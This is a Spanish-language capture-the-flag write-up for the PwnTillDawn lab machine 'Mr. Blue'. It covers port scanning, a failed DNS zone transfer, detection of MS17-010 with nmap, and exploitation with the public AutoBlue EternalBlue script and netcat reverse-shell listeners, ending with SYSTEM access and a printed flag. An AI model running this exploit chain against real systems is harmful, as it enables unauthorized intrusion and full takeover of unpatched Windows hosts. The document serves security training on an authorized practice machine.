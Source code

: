 # WRITEUP Mr. Blue

### ESCANEO
#### 10.150.150.242	Windows	Easy
```
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1433/tcp  open  ms-sql-s
3389/tcp  open  ms-wbt-server
8089/tcp  open  unknown
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49197/tcp open  unknown
```
Como siempre, iniciamos escaneando los puertos abiertos de la box. A primera vista vemos varios puertos interesantes que son "comunes", el puerto 53,80, y 445.



### ENUMERACIÓN

Al ingresar al puerto 80, podemos ver una imagen como index

![img](img/1.PNG)

Al intentar un fuzzeo de directorios no nos arrojó nada, por lo tanto dejaremos de lado este sitio. Ahora pasaremos al puerto 53, y lo primero que se nos viene a la mente al ver el puerto 53 abierto es verificar si tiene algún dominio. Para ello utilizaremos la utilidad dig para realizar [ZONE TRANSFER](https://www.welivesecurity.com/la-es/2015/06/17/trata-ataque-transferencia-zona-dns/) pero no conseguimos nada.

```
dig axfr @10.150.150.242
; <<>> DiG 9.16.12-Debian <<>> axfr @10.150.150.242
; (1 server found)
;; global options: +cmd
;; Query time: 112 msec
;; SERVER: 10.150.150.242#53(10.150.150.242)
;; WHEN: mié mar 10 00:23:44 CST 2021
;; MSG SIZE  rcvd: 40
```

Ahora nos queda el puerto 445, para ello podemos intentar listar recursos compartidos o verificar si su versión tiene alguna vulnerabilidad publica. Para ello lanzaremos los scripts de nmap.

```
nmap 10.150.150.242 -p445 --script="smb-vuln*"
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-10 00:29 CST
Nmap scan report for 10.150.150.242
Host is up (0.11s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

```

Como podemos observar, es vulnerable a un RCE (Eternalblue CVE-2017-0143) .

### EXPLOTACIÓN 

Tenemos 2 maneras de explotar esta vulnerabilidad, utilizando Metasploit o realizandolo a "mano". En nuestro caso lo vamos a realizar a mano, y para ello encontré [este script](https://github.com/3ndG4me/AutoBlue-MS17-010).

Una vez descargado, nos vamos a la carpeta "shellcode" y ejecutamos el script sh. Llenamos la información y nos dará un par de binarios.

![img](img/2.PNG)


El siguiente paso será poner nc en escucha en los ambos puertos que configuramos en el paso anterior. 
Después queda solamente ejecutar el exploit de la siguiente manera:

```
┌─[root@parrot]─[~/pwntilldawn/mrblue/AutoBlue-MS17-010]
└──╼ #python eternalblue_exploit7.py 10.150.150.242 shellcode/sc_all.bin
```

Y tenemos shell.
```
c:\users\Administrator.GNBUSCA-W054\desktop>whoami
whoami
nt authority\system

c:\Users\Administrator.GNBUSCA-W054\Desktop>type FLAG34.txt
type FLAG34.txt
c2e9e102e55d5697ed2f9a7ea637
```



Contacto: [Linkedin](www.linkedin.com/in/JairR) [Twitter](https://twitter.com/_niggurath_)


Write-ups have been authorized for this machine by the PwnTillDawn Crew! We are just asking you to give us credit by adding a backlink to [wizlynxgroup](https://www.wizlynxgroup.com/) and [Pwntilldawn](https://online.pwntilldawn.com/) in your write-up.
